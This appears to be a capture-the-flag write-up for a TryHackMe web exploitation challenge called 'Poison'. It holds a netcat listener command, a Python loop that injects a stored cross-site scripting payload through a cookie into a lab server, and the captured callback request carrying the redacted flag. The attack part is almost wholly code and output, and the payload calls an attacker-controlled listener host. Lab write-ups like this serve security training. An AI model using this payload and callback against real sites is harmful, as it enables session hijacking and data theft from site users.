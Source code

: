 ```yaml
---
title: Poison
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 90
solves: -1
flags: flag: THM{REDACTED}
---
```

> The CRM interface on the plant's internal network was supposed to help operators manage sensor maintenance and schedule firmware patches. Instead, someone turned it into a silent threat vector.
>
> A lab technician reported several inconsistencies. Data from the interface showed altered update statuses, injected redirects, and phantom users. Moments later, a batch of remote firmware triggers was misrouted… straight into the wrong PLCs.

---

```sh
nc -lnvp 1337
```

```py
import requests
import time

url = "http://10.10.67.238:8000/user.php"
cookie_value = "<script>setTimeout(() => fetch('http://10.17.37.98:1337/'), 2000)</script>"
cookies = {
    "loggedin": cookie_value
}

while True:
    try:
        response = requests.get(url, cookies=cookies)
        print(f"[+] Sent payload. Status: {response.status_code}")
        print(f"[+] Response body: {response.text}")
    except Exception as e:
        print(f"[-] Error: {e}")

    time.sleep(1)
```

```sh
$ $ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.17.37.98] from (UNKNOWN) [10.10.67.238] 48698
GET / HTTP/1.1
Host: 10.17.37.98:1337
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 THM{REDACTED}
Accept: */*
Origin: http://10.10.67.238:8000
Referer: http://10.10.67.238:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

`User-Agent: ... Safari/537.36 THM{REDACTED}`
